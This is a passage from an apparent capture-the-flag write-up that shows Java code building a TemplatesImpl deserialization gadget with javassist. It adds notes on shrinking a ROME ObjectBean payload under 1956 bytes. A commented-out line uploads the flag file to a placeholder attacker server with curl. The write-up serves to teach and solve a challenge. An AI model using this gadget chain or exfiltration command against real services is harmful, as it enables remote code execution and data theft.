  ```Java
 public static <T> T createTemplatesImpl ( Class<T> tplClass, Class<?> abstTranslet )
    throws Exception {
    final T templates = tplClass.newInstance();
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(F.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(F.class.getName());
//        String cmd = "java.lang.Runtime.getRuntime().exec(\"curl -T flag your_server.com\");";
    String cmd = "java.lang.System.exit(33);";
    clazz.makeClassInitializer().insertAfter(cmd);
    clazz.setName("o");
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);
    byte[] classBytes = clazz.toBytecode();
    try (FileOutputStream fos = new FileOutputStream("exploit.class")) {
        fos.write(classBytes);
    }
    System.out.println("Length of raw bytecode: " + classBytes.length);
    Field bytecodes = tplClass.getDeclaredField("_bytecodes");
    bytecodes.setAccessible(true);
    byte[] secondClassBytes = classAsBytes(F.class);
    System.out.println("Second class byte length:" + secondClassBytes.length);
    bytecodes.set(templates, new byte[][] {
            classBytes, secondClassBytes
    });
    setField(templates, "_name", "_");
    return templates;
}
```

Noteable changes:
* Both `Foo` and `StubTransletPayload` have been replaced by an empty class `F`
* The exploit is inserted into the static section of this empty class using **javassist**
* The new `StubTransletPayload` extends `AbstractTranslet` through bytecode patched by **javassist** and doesn't override all necessary methods to save space
* Most names have been shortened to save space

Finally, to shave off the last few bytes off the payload these private member variables of the `ObjectBean` need to be set to null:
* `objBean1._equalsBean`
* `objBean1._cloneableBean`
* `objBean2._cloneableBean`
* `objBean2._equalsBean._beanClass`
* `objBean2._toStringBean`

The payload can now be serialized and should be below **1956 bytes**.

To see how I came up with all these modifications and to get a more in depth understanding of the payload and the inner workings of java serialization continue reading.

# How I solved it
